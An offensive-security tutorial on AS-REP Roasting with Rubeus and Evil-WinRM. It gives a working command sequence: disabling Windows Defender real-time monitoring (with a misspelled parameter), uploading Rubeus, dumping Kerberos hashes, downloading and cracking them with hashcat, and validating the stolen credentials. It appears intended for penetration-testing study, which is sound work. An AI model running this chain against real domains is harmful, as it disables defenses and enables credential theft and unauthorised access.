




# AsRepRoasting with Rubeus

## Intro to Rubeus

[Rubeus](https://github.com/ghostpack/rubeus) is an open-source C# toolset designed for direct interaction with the Kerberos authentication protocol in Microsoft Windows environments. It enables security researchers and penetration testers to execute, test, and demonstrate Kerberos-based attacks and defenses in Active Directory environments.

Originally part of the GhostPack toolkit, Rubeus has been widely adopted for both legitimate security testing and malicious exploitation.

It is a powerful <mark style="color:$primary;">post-exploitation</mark> tool used in Windows Active Directory environments to interact with and abuse the Kerberos authentication protocol. It is commonly used by red teamers, penetration testers, and attackers to perform Kerberos-based attacks such as ticket extraction, ticket injection, Kerberoasting, AS-REP Roasting, Pass-the-Ticket, Overpass-the-Hash, and ticket renewal.

Rubeus allows direct interaction with Kerberos tickets (TGTs and TGSs) and can request, monitor, renew, dump, import, or forge tickets from memory. It is widely used <mark style="color:$primary;">after gaining initial access</mark> to a Windows system because it helps attackers move laterally, escalate privileges, and maintain persistence within an Active Directory environment.

The tool was developed in C# and is heavily inspired by the functionality of Mimikatz, but focuses specifically on Kerberos operations. It can communicate directly with the Domain Controller to request Kerberos tickets or interact with tickets already stored in memory.

Rubeus is especially valuable during Active Directory attacks because Kerberos is the default authentication protocol in Windows domains. By abusing Kerberos tickets, attackers can impersonate users, access services, or authenticate without knowing plaintext passwords.

Common capabilities of Rubeus include:

* Extracting Kerberos tickets from memory
* Performing Kerberoasting attacks
* Performing AS-REP Roasting attacks
* Injecting tickets into current sessions (Pass-the-Ticket)
* Requesting TGTs using NTLM hashes (Overpass-the-Hash)
* Renewing and monitoring Kerberos tickets
* Enumerating Kerberos sessions and tickets

Because of its strong offensive capabilities, Rubeus is widely detected by security products and is commonly referenced in Active Directory red teaming and defensive monitoring scenarios.

***

## Into to Evil-WinRM

Evil-WinRM is a post-exploitation and remote administration tool used to gain interactive command-line access to Windows machines through the **WinRM (Windows Remote Management)** service. It is widely used by penetration testers and red teamers for remote access, lateral movement, and post-exploitation in Active Directory environments.

Evil-WinRM provides a powerful PowerShell-based remote shell over the WinRM protocol, allowing attackers or administrators to execute commands, upload/download files, run scripts, and interact with the target system remotely.

The tool is especially popular because many Windows servers have WinRM enabled for remote administration. If valid credentials are obtained, Evil-WinRM can provide stable remote access without needing RDP.

Common uses of Evil-WinRM include:

* Remote PowerShell access to Windows systems
* Executing commands remotely
* Uploading and downloading files
* Running PowerShell scripts and binaries
* Post-exploitation and lateral movement
* Interacting with Active Directory environments

Example command:

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

***

## AS-REP Roasting Attack

> Note: To Perform this attack using the Rubeus we need to disable the Real-Time Monitoring on the target windows system.\
> To Disable Real-Time Monitoring:
>
> ```powershell
> Set-MpPreference -DisableRealtimeMonitoing $true
> ```

First we get initial access using valid username and credentials.

<figure><figcaption></figcaption></figure>

Now we upload the Rubeus.exe file to remote machine:

```bash
upload </PATH/TO/THE/FILE/Rubeus.exe> .
```

<figure><figcaption></figcaption></figure>

After successfully upload the Rubeus.exe file, run the following command to perform AS-REP Roasting:

```powershell
.\Rubeus.exe asreproast /nowrap /outfile:hashes.txt /format:hashcat
```

<figure><figcaption></figcaption></figure>

We successfully perform AS-REP Roasting attack and save the hash into a file. Now to crack the hash we need to download the file in our local machine.

To download the file:

```powershell
download <FILENAME>
```

<figure><figcaption></figcaption></figure>

***

## Crack AS-REP Hashes

Once the hashes are collected, the next step is to crack them offline using a wordlist. This allows the attacker to recover the user’s plaintext password. we can use any of these Password cracking tool: `hashcat` or `john` .

For cracking the extracted hashes using `hashcat`:

```bash
hashcat <FILENAME.TXT> /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

***

## Verify Credentials

After successfully cracking the password, it is important to verify whether the credentials are valid in the domain. This ensures that the attack was successful and the account can be used for further access.

For verifying the username and password:

```bash
nxc ldap <DOMAIN_IP> -u <USER.NAME> -p <PASSWORD>
```

If authentication is successful, it confirms valid domain credentials.

<figure><figcaption></figcaption></figure>
